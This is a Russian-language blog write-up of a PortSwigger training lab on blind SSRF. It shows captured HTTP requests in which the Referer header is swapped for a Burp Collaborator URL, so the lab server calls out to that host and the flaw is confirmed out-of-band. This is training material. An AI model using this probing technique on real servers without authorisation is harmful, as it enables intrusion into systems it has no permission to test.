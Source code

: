 ```yaml
---
title: "Blind SSRF with out-of-band detection"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-blind-ssrf-vulnerabilities/ssrf/blind/lab-out-of-band-detection"
classes: wide
---
```

{% raw %}
Для решения лабы нужно отправить запроса на `Burp Collaborator`.

```
https://0ab600f6036267f4820a524c001d00da.web-security-academy.net/
```

## Solution

Для начала изучу работу сайта, чтобы собрать `HTTP`-запросы через `Burp Proxy`. 

Попробую потестировать `GET`-запрос для получения страницы товара:

```http
GET /product?productId=6 HTTP/2
Host: 0ab600f6036267f4820a524c001d00da.web-security-academy.net
Cookie: session=lhMELrWr3llpsZocZS22hVgFjTVanfTT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab600f6036267f4820a524c001d00da.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую использовать поле `Referer`, так как оно единственное содержит `URL` и изменяется при переходе от страницы к страницe. Для этого получу `URL` в `Burp Collaborator`: `ub99y5hosk30d0e2615mdnbrmis9gz4o.oastify.com`. Теперь подставлю его в поле:

```http
GET /product?productId=6 HTTP/2
Host: 0ab600f6036267f4820a524c001d00da.web-security-academy.net
Cookie: session=lhMELrWr3llpsZocZS22hVgFjTVanfTT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://ub99y5hosk30d0e2615mdnbrmis9gz4o.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3913

...

```

Проверю логи `Burp Collaborator`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Blind_SSRF_with_out-of-band_detection/1.png){: height="200" .align-center}

В логах вижу запрос. Значит сервер отправил `HTTP`-запрос. Что и требовалось:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Blind_SSRF_with_out-of-band_detection/2.png){: height="200" .align-center}

{% endraw %}
